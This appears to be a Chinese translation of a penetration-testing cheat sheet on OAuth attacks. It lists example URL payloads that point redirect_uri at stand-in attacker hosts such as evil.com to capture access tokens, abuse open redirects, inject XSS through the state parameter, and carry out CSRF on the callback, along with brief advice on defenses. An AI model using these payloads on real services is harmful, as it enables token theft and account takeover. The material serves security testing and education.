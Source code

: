 # OAuth

## 摘要

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)

## 通过HTTP头Referer窃取OAuth Token

From [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544) tweet.

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer 
>
> 你是否出现一种情况是存在HTML注入缺不能获得XSS？是否在这个网页上有很多OAuth实现？如果是这样，那你可以尝试在服务器页面上设置一个img标签，看看是否有办法在被害者登陆后（重定向等等的方法）来通过Referer窃取OAuth token

## 通过重定向uri来抓取OAuth token(redirect_uri)

重定向道可控域(可控服务器或者网站)来获得访问token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向道一个允许的开放URL来获得访问token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth实现不应该把整个域设置为白名单，只设置几个URL（需要用到的），这样“redirect_uri”就不能指向一个开放式重定向了。

又是需要讲作用域更改为无效的作用域(scope)来绕过重定向时的筛选器。

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过redirect_uri来执行XSS

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## 公开OAuth私钥

一些安卓/IOS的app可以被反编译，我们可以在里面找到OAuth私钥。

## 违反授权码规则

> 客户端禁止使用授权码超过一次。如果一个授权被使用超过一次，授权服务器必须禁止这个请求并且需要（在需要的情况下）撤销所有基于这个授权码的所有Token

## 跨站请求伪造

如果程序不在OAuth回调过程中检查CSRF令牌，那么这个程序可以被攻击。通过初始化OAuth流并且拦截回调(`https://example.com/callback?code=AUTHORIZATION_CODE`)。这个URL可以运用CSRF攻击

> 客户端需要为他们重定向URI进行CSRF保护。通常，这是通过要求发送到重定向URI端点的任何请求包括将请求绑定到用户代理的身份验证状态的值来实现的。当进行授权请求时，客户端应该利用“state”请求参数将这个值传递给授权服务器。

## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)

- [Bypassing Google Authentication on Periscope's Administration Panel](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) By Jack Whitton